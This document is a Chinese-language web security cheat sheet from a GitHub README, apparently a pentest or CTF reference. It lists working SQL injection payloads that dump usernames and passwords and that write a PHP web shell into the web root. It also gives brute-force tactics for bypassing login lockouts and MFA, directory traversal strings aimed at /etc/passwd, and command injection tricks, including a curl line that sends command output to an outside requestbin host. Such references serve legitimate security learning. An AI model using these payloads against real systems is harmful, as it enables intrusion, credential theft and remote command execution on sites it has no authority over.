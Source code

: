 # Web-Security-Cheatsheet

## SQL Injection

https://portswigger.net/web-security/sql-injection/cheat-sheet

### 目標

被放入 SQL 語句的資料如表單、參數、cookie 等

> 如果放在 http request 則要注意 url encode

### 基礎

- 欄位數:
  ```sql
  UNION SELECT NULL,NULL,NULL--
  ```
- 型別:
  ```sql
  UNION SELECT 'a',NULL,NULL--
  ```
- 合併不同欄位:
  ```sql
  UNION SELECT username || '~' || password FROM users--
  ```
- 合併同一欄位所有資料:
  ```sql
  UNION SELECT group_concat(username) FROM users--
  ```

#### 額外資料

- 資料庫名:
  ```sql
  SELECT table_schema FROM information_schema.schema
  ```
- 資料表名:
  ```sql
  SELECT table_name FROM information_schema.tables where table_schema == 'target'
  ```
- 欄位名:
  ```sql
  SELECT column_name FROM information_schema.columns WHERE table_name = 'users'
  ```
- 欄位型別:
  ```sql
  SELECT data_type FROM information_schema.columns WHERE table_name = 'users'`
  ```

### Blind SQL Injection

[範例](simple_blind_sql_injection.py)

- UNION-Based:
  ```sql
  AND (condition)--
  ```
- Error-Based:
  ```sql
  OR (SELECT CASE WHEN (condition) THEN 1/0 ELSE 1 END)--
  ```
- Time-Based:
  ```sql
  (SELECT CASE WHEN (condition) THEN sleep(3) ELSE sleep(0) END)--
  ```

### 檔案寫入

- ```sql
  SELECT '<?php exec($_GET["cmd"])' INTO OUTFILE '/var/www/html/shell.php'`
  ```
- ```sql
  SELECT '<?php exec($_GET["cmd"])' INTO DUMPFILE '/var/www/html/shell.php'
  ```
- ```sql
  set global general_log = on;
  set global general_log_file = '/var/www/html/shell.php';
  select '<?php exec($_GET["cmd"])'
  set global general_log = off;
  ```

## 認證

https://haveibeenpwned.com/

### 用戶名枚舉

- 狀態碼
- 錯誤訊息
- 回應時間

### 保護措施

- 鎖 IP

  - 如果同一個 IP 登入失敗太多次被鎖，可以讓一定成功的帳號和測試帳號相間做爆搜

- 鎖帳號

  - 不存在的帳號也許不會被鎖，可以用來做用戶名枚舉
  - 如果帳號實際上沒有被鎖，只是告訴你試了太多次，可以暴力破解

- 多因素驗證
  - 檢查還沒驗證完時可不可以使用帳戶功能
  - 如果驗證流程有缺陷勝制不用密碼，爆搜驗證碼就行了

### 其他登入相關功能

- 記得我: cookie 要保護好，如果 cookie 是由帳號密碼等資料組成則可以爆破，或是用其他技術竊取其他人的 cookie 離線爆破密碼

- 忘記密碼: 提交重置表單時也要驗證 token

- 更改密碼: 更改密碼頁面如果可被其他人找到，可用這個頁面爆搜密碼繞過登入頁面的保護

## 目錄遍歷

- 相對路徑: example.com/?file=../../../etc/passwd
- 絕對路徑: example.com/?file=/etc/passwd
- 特殊字串刪除: example.com/?file=....//....//....//etc/passwd
  > 假設刪除 `../`
- url encode 繞過: example.com/?file=%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
- 特定資料夾開頭: example.com/?file=/var/www/images/../../../etc/passwd
- 副檔名: example.com/?file=../../../etc/passwd%00.png

## Command Injection

### 常用符號

- `a & b`: a 背景執行並執行 b
- `a && b`: a 成功後執行 b
- `a || b`: a 失敗後執行 b
- `a ; b`、`a \n b`: a 完成後執行 b

### 繞過 `.` 和 `/`

`ls $(echo Lwo= | base64 -d)`

> base64 decode 後會是字串，所以不能 `$(echo bHMgLwo= | base64 -d)`

### 無回顯

- `curl -d "$(ls /)" https://requestbin.io/xxx`
- `ls / > dump`

### 測試

`& ping -c 10 127.0.0.1 &`

> 成功會延遲十秒

